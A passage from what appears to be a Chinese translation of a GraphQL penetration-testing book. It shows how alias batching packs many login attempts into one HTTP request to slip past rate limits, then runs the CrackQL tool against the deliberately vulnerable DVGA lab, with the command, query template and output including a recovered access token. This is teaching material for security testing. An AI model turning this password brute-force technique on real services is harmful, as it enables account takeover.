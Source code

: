```
    }
```

即使有安全控制通过禁止客户端每分钟发出超过五次 HTTP 登录请求来保护 API，这种攻击也能绕过这种逻辑，因为我们在执行 10 次登录尝试时只发送了一个 HTTP 请求。

### 使用 CrackQL 进行密码暴力破解

手动构建成功进行密码暴力破解所需的大型 GraphQL 文档将非常耗时。在第二章中，你安装了一个名为*CrackQL*的 GraphQL 密码暴力破解和模糊测试工具。该工具接受一个单一的 GraphQL 查询或突变操作，并使用 CSV 字典自动生成别名有效载荷。让我们运行相同的密码暴力破解攻击，不过这次使用 CrackQL 来自动化它。

进入 CrackQL 目录，然后执行对 DVGA 的暴力破解攻击。`-t`（目标）参数指定目标 GraphQL 端点 URL，`-q`（查询）参数接受一个示例查询（`login.graphql`），`-i`（输入）参数定义了攻击中使用的用户名和密码列表。`--verbose` 参数允许我们查看额外的信息，如发送给 DVGA 的最终有效载荷。

```
# **cd ~/CrackQL**
# **python3 CrackQL.py -t http://localhost:5013/graphql -q sample-queries/login.graphql**
**-i sample-inputs/usernames_and_passwords.csv --verbose**
```

CrackQL 预安装了一个示例的用户名和密码 CSV 字典，以及*login.graphql*查询，如列表 7-6 所示。正如你所看到的，它包含一个包含两个嵌入变量（`username`和`password`）的单一登录突变。CrackQL 使用 Jinja 模板语法，因此变量通过双大括号（`{{}}`）传递。

```
mutation {
  login(username: {{username|str}}, password: {{password|str}}) {
    accessToken
   }
}
```

列表 7-6：CrackQL 登录暴力破解查询示例

当你执行 CrackQL 命令时，该工具会自动从 CSV 文件中获取每个用户名和密码变量，并将它们注入到同一查询文档中的重复登录操作中。CrackQL 的详细输出提供了有效载荷详情以及输出结果：

```
Data:
[{'alias1': {'data': None,
             'inputs': {'password': 'admin', 'username': 'admin'}}},
*--snip--*

 {'alias9': {'data': None,
             'inputs': {'password': 'operator', 'username': 'pass123'}}},
 {'**alias10**': {'data': {'**accessToken**': '**eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzIiwiaWF0IjoxNjU3MDQ2NjI5LCJuYmYiOjE2N**
**TcwNDY2MjksImp0aSI6IjVkMzhkM2Y5LWNjNTUtNDcyYy1iNzRhLThiN2FlMzEyNGFlMiIsImlkZW50aXR5Ijoib3BlcmF0**
**b3IiLCJleHAiOjE2NTcwNTM4Mjl9.Ba3zfvSZqjDmyLFdx71WCs-7vidaxpUfs2X3UK3zZBA'**},
              'inputs': {'password': 'password123', 'username': 'operator'}}}]
Errors:
[{'alias1': {'error': 'Authentication Failure',
             'inputs': {'password': 'admin', 'username': 'admin'}}},
 {'alias2': {'error': 'Authentication Failure',
             'inputs': {'password': 'admin', 'username': 'password'}}},
*--snip--*

 {'alias9': {'error': 'Authentication Failure',
             'inputs': {'password': 'password123', 'username': 'operator'}}}]
[*] Writing to directory results/localhost:5013_5bab6e
```
